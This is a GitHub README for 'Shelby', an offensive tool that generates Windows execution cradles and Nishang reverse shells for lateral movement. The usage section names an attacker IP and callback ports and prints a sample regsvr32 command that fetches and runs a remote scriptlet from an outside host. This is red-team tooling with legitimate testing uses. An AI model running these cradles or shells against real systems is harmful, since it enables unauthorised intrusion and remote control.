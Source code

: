 <p align="center">
  <img alt="By Order of the Peaky Blinders" src="https://i.imgur.com/5n0ly8K.png" height="140"/>
  <p align="center">
    <a href="https://github.com/ad-995/shelby/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/ad-995/shelby.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/ad-995/shelby.svg?style=flat-square"></a>
    </p>
</p>

<h5 align="center"><i>Execution Cradle Generation!</i></h5>

***

## Introduction

`Shelby` is a Windows Execution Cradle Generator inspired by [PoshC2](https://github.com/nettitude/PoshC2/blob/master/poshc2/server/Payloads.py) and their `PoshC2_Project/quickstart.txt` documentation. 

The aim of this project is to automatically generate several commonly used Execution Cradles for lateral movement. Future releases will include some classic Linux cradles too.

## Cradles
For our initial proof-o'-concept, we have two cradles:
- `regsvr32`
- `powershell IEX (...)`

These can be run with any command execution. When `Shelby` is run, the provided snippets will update with the given IP address and port and are available in plaintext and base64-encoded.

## Shells
Two shells are currently inside `Shelby`, both from [Nishang](https://github.com/samratashok/nishang). We found these to be more reliable:
- [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [Invoke-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)

Additional shells for Windows and Linux coming soon!

## Modularity
Details on how to add cradle and shells to `Shelby` can be found at [ad-995](https://ad-995.group/projects/shelby.html).

## Example
Below is an example output:
![Shelby Output](https://i.imgur.com/G0XRmTS.png)

## Usage
```
usage: shelby.py [-h] -i  [-w] [-p] [-d]

Giver of shells

optional arguments:
  -h, --help            show this help message and exit
  -i , --ip-address     Attacker IP Address
  -p , --cradle-port    Port for receiving shells
  -w , --web-delivery   Port for serving shells
  -d , --directory      Directory for generated payloads
```

There are some important things to note here:
- `--ip-address`: The IP address that the `shells` will call back to.
- `--cradle-port`: The port that the `shells` will call back to.
- `--web-delivery`: The port that the `cradles` will use to retrieve the `shell`.
- `--directory`: The directory in which all the `cradles` and `shells` will be saved to, as well as the `cradle_commands.txt` file. You should run your web delivery server here.

The `cradle_commands.txt` file contains all the Execution Cradle commands. For example:

```
regsvr32:
regsvr32 /s /n /u /i:http://10.10.11.58:80/sctlvjzqylbdzdl scrobj.dll
```

As more Execution Cradles are added, the format will be the same:

```
Method:
Cradle Command
```

Finally, the easiest usecase here is to serve the `./server_port` directory with `python -m SimpleHTTPServer 80`. 

A project by [mez-0](https://github.com/mez-0) & [michaelranaldo](https://github.com/michaelranaldo)
